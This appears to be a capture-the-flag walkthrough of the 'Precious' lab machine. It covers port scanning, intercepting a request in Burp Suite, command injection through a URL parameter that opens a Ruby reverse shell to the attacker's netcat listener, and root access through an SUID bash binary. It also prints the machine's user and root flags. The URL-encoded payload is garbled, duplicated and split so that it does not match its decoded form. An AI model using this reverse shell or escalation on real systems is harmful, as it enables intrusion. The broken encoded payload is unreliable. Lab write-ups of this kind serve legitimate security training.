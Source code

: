 # Reconnaissance

## Port Scan (nmap)
We perform a nmap port scan using the following command:

**Command:**\
*sudo nmap -sC -sV -p- {IP address}*

**Results:**\
TCP Ports Open:
* 22 - SSH
* 80 - HTTP

## Capturing the Request Using BurpSuite

We first add *precious.htb* to our */etc/hosts/* file and then access the precious.htb url.

We are then presented with the following page:

![image](https://user-images.githubusercontent.com/85443537/223785060-e7a56134-1813-479f-b49a-e24a233d0406.png)


Open up *Burpsuite* and set *FoxyProxy* for burpsuite and then enable intercept traffic in *Proxy* tab and then *Intercept is off*. 
After enabling intercept traffic, make a request using the submit button on the web application.

![image](https://user-images.githubusercontent.com/85443537/223787647-d2a12df8-cb05-4ed1-a583-60e3e42971dd.png)


After intercepting the request in burpsuite, right click on the request and select the *Send to Repeater* option to send it to repeater. 

![image](https://user-images.githubusercontent.com/85443537/223787927-e838eacb-a063-4792-828b-2d6c3fa54ebe.png)


In the repeater tab we send the request with an empty url parameter and see that one of the response headers *X-Runtime* hints us that it is using *Ruby*.

![image](https://user-images.githubusercontent.com/85443537/223788023-77a7523c-c882-4f76-a9b6-7e3ba69abf71.png)

## Netcat and Ruby Rerverse Shell
We set up a netcat listener in a new terminal that listens to port 4444 using the following command:

**Command:**\
*sudo nc -lvnp 4444*

**Command Description:**\
* -l : Listener (listen for incoming connections)
* -v : Verbose
* -n : Numeric only ip addresses (no DNS)
* -p : Port

**Results:**

![image](https://user-images.githubusercontent.com/85443537/223788845-a03f9548-5010-4fa0-b23c-8e177bd4d7b0.png)

We then return to burpsuite in the repeater tab and enter the following value for the *url=* parameter*.
Note: Replace {IP Address} with your attacker machine IP address (do not forget to remove the curly brackets).

*http%3A%2F%2F{IP Address}%3A4444%2F%3Fname%3D%2520%60+ruby+-rsocket+-e%27spawn%28%22sh%22%2C%5B%3Ain%2C%3Aout%2C%3Aerr%5D%3D%3ETCPSocket.new%28%22*http%3A%2F%2F{IP Address}%3A4444%2F%3Fname%3D%2520%60+ruby+-rsocket+-e%27spawn%28%22sh%22%2C%5B%3Ain%2C%3Aout%2C%3Aerr%5D%3D%3ETCPSocket.new%28%2210.10.16.65%22%2C4444%29%29%27%60*
%22%2C4444%29%29%27%60*

The decoded equivalent to url is (do not use the decoded version in the url parameter):
Note: Replace {IP Address} with your attacker machine IP address (do not forget to remove the curly brackets).

*http://{IP Address}:4444/?name=%20` ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("{IP Address}",4444))'`*

![image](https://user-images.githubusercontent.com/85443537/223790881-5319a5de-33ae-46ed-9665-57237a2e612f.png)

After tapping send we get a reverse shell on our netcat listener that was previously set up.

## Inside the Shell

After getting reverse shell we can see that we logged in as the user *ruby*.

We run the following command to display all the files/directories that have the SUID bit set:

**Command:** *find / -perm /4000 2>/dev/null*

**Command Description:**\
* / : Look for all files and directories
*  -perm : Permissions
*  /4000 : SUID bit set
*  2>/dev/null : Redirects errors to /dev/null instead of showing them on screen

**Results:**

![image](https://user-images.githubusercontent.com/85443537/223792377-d064c884-2e6a-4a36-a08c-03ba1eb2e77a.png)

We look at the results and see we can run bash. We navigate to https://gtfobins.github.io/ and type in bash in the search bar.
Then scroll down till we reach SUID section. We can run bash -p.

After running the command *"bash -p"* on the victim machine, we surprisingly get root.

![image](https://user-images.githubusercontent.com/85443537/223793512-61823b48-66e0-489b-8ef8-2cbb863726c0.png)

We can now grab the user.txt flag from the user directory */home/henry* and the root.txt flag from /root.


# Goals

* USER Flag: 1ba79470b68e793ff903ebe6068553bd
* ROOT Flag: 5d0c40730f956d8bfa201a1475d0e4cc

